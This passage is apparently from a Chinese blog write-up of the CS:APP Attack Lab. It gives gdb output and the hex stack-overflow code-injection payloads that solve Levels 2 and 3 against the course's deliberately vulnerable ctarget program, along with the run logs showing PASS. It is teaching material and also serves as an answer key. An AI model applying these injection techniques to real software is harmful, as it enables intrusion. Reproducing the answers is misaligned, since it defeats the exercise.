 ```
eflags         0x216    [ PF AF IF ]
cs             0x33     51
ss             0x2b     43
ds             0x0      0
es             0x0      0
fs             0x0      0
gs             0x0      0
(gdb)
```

因此栈顶为 `0x5561dc78`，我们可以写出对应的答案：

```
48 c7 c7 fa 97 b9 59 c3 ;; mov $0x59b997fa,%rdi ret
66 66 66 66 66 66 66 66
66 66 66 66 66 66 66 66
66 66 66 66 66 66 66 66
66 66 66 66 66 66 66 66
78 dc 61 55 00 00 00 00
ec 17 40 00 00 00 00 00
```

运行之：

```
name1e5s@sumeru:~/csapp/attacklab-name1e5s/target1$ ./hex2raw < p1l2.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 C3 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 78 DC 61 55 00 00 00 00 EC 17 40 00 00 00 00 00
```

### Level 3

此关需要传入 `cookie` 转为字符串后的位置，我们继续利用那段宝贵的栈空间解决问题（，答案如下：

```
48 c7 c7 80 dc 61 55 c3 ;; mov $0x59b997fa,%rdi ret
35 39 62 39 39 37 66 61
00 66 66 66 66 66 66 66
66 66 66 66 66 66 66 66
66 66 66 66 66 66 66 66
78 dc 61 55 00 00 00 00
fa 18 40 00 00 00 00 00
```

...显然这么做是不行的，因为这段空间后来已经被处理掉了，所以我们需要自力更生自己造空间：

```
48 8d 7c 24 10 c3 66 66 ; lea 16(%rsp),%rdi ret
66 66 66 66 66 66 66 66
66 66 66 66 66 66 66 66
66 66 66 66 66 66 66 66
66 66 66 66 66 66 66 66
78 dc 61 55 00 00 00 00
fa 18 40 00 00 00 00 00
66 66 66 66 66 66 66 66
35 39 62 39 39 37 66 61 00
```
